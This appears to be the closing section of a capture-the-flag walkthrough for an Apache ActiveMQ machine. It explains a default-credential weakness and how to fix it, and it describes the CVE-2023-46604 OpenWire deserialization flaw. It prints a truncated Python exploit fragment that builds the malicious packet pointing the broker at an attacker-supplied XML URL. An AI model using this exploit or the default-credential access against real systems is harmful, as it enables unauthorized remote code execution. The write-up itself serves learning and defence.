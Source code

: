 ___
## Conclusion - The epilogue

In this section, I will provide a descriptive explaination for the vulnerabilities identified and exploits that were used. Any extra information that is not directly linked with the machine will be shared in this section. This is very crucial section, as it will cover the true understanding behind the hack.

### Vulnerabilities

#### 1. Default Credentials
After our Ports and Services scan, we opened the website where it asked for username and password to access the website, and we randomly entered the default credentials which gave us access to the website. It is very crucial that we do not use default credentials anywhere, because if we consider the hack again, then it were the default credentials that initially gave us more information about the website.

In a situation where the website do not use default credentials, an attacker will face difficulty in breaching a system, and many a times he might even give up. 

##### Fix: remove default credentials
1. Locate the `jetty-realm.properties` file in the `conf` directory of your ActiveMQ installation.
2. Open the `jetty-realm.properties` file in an editor.
3. The default credentials are typically defined as `admin:admin,admin`.
4. Modify the line to include your new password. For instance, to change the password to `mynewpass@123`, the line would become `admin:mynewpass@123,admin`.
5. Format of the line: `username:password,rolename` you can edit this line as per your needs.

### 2. Remote Code Execution (RCE)
CVE-2023-46604 is a Remote Code Execution (RCE) vulnerability with a CVSS score of 9.8 indicating critical severity, per the National Vulnerability Database. Specifically, the Java OpenWire protocol marshaller is vulnerable to this CVE. It allows a remote attacker with network access to either a Java-based OpenWire broker (ActiveMQ) or client to run arbitrary shell commands by manipulating serialized class type in the OpenWire protocol to cause either the client to the broker to instantiate any class on the classpath.

#### How Does CVE-2023-46604 work?
The exploit process works in two stages. Firstly, the adversary establishes a connection to ActiveMQ via the OpenWire protocol, which is running most of the times on 61616 port. Then a carefully crafted OpenWire packet is sent to the system, where the attacker prompts the system to unmarshall a class they control. 

The OpenWire protocol request originates from the adversary, but the request to load a remote class configuration file originates from the victim. The only known exploit uses **ClassPathXmlApplicationContext** to load a malicious XML application configuration file from somewhere.

#### Exploit Source - Do Not Copy
```
import socket 
import argparse 
 
def main(ip, port, url): 
    if not ip or not url: 
        print("Usage: script.py -i <ip> -p <port> -u <url>") 
        return 
     
    class_name = "org.springframework.context.support.ClassPathXmlApplicationContext" 
    message = url 
 
    header = "1f00000000000000000001" 
    body = header + "01" + int2hex(len(class_name), 4) + string2hex(class_name) + "01" + int2hex(len(message), 4) + string2hex(message) 
    payload = int2hex(len(body) // 2, 8) + body 
    data = bytes.fromhex(payload) 
```
